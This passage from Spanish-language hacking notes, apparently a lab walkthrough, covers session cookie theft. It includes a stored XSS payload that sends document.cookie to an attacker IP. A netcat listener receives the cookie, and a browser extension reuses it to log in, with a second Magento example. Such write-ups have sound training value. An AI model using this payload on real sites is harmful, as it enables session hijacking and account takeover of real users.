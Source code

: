 Por tanto en este punto, podríamos intentar hacer un robo de cookies, por lo que crearemos otra nota poniendo una dirección URL en la cual el usuario víctima deberá hacer click; y ahí habremos obtenido su cookie de sesión.
Lo guardamos y veremos que hay un intento de imagen cargada en la web, pero que no llega a cargar:
```
<script>img = new Image(); img.src = "http://10.10.16.10/a.php?"+document.cookie;</script>
```
![[Mis apuntes/ANEXOS/Pasted image 20230210135959.png]]

Lo guardamos y nos pondremos en escucha con netcat por el puerto 80 para recibir esa cookie de sesión:
![[Mis apuntes/ANEXOS/Pasted image 20230210140316.png]]

Ahora que ya tenemos la cookie de sesión, sólo tenemos que importarla dentro de nuestro navegador y ya podremos entrar en el panel de login sin proporcionar contraseña, por lo que necesitaremos una extensión del navegador que se llama cookie editor:
![[Mis apuntes/ANEXOS/Pasted image 20230210140409.png]]

La instalamos:
![[Mis apuntes/ANEXOS/Pasted image 20230210140431.png]]

Y ahora en la web y utilizando esta extensión, pondremos la cookie que hemos capturado:
![[Mis apuntes/ANEXOS/Pasted image 20230210140548.png]]

Guardamos y recargamos la página y hemos iniciado sesión:
![[Mis apuntes/ANEXOS/Pasted image 20230210141901.png]]

# EJEMPLO 2
Veremos un ejemplo de haber conseguido una cookie de sesión [[Hacking Magento]]
![[Mis apuntes/ANEXOS/Pasted image 20230423083532.png]]

Y desde la extensión cookie editor tenemos este campo donde podemos poner una cookie de sesión:
![[Mis apuntes/ANEXOS/Pasted image 20230423083743.png]]

Le ponemos la nueva cookie que hayamos capturado:
![[Mis apuntes/ANEXOS/Pasted image 20230423083819.png]]

Recargamos la página y ya estamos dentro:
![[Mis apuntes/ANEXOS/Pasted image 20230423083844.png]]

